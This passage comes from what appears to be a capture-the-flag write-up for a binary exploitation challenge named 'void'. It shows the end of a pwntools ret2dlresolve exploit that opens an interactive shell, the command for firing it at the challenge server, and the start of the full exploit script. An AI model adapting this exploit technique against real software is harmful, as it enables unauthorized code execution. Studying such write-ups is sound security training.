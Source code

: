 ```python
}, length=199)

log.info(f"payload is {len(payload)} bytes")
input('\n[Press ENTER to send payload]\n')
io.sendline(payload)
io.sendline(dlresolve.payload)

io.interactive()
```

## Exploiting Remote Service
The only trick to using the script against the remote service is to use `LOCAL_LIBC` to force pwntools to use addresses found in the `glibc` directory that we got with the challenge binary.

The command to run the exploit against the HTb service is

```bash
python3 exploit.py HOST=94.237.59.63 PORT=51715 LOCAL_LIBC
```

# Appendix I: Final Script
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 0.0.0.0 --port 1337 --libc ./glibc/libc.so.6 void
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'void')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '0.0.0.0'
port = int(args.PORT or 1337)

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('./glibc/libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./glibc/libc.so.6')
else:
    libc = ELF('./glibc/libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
```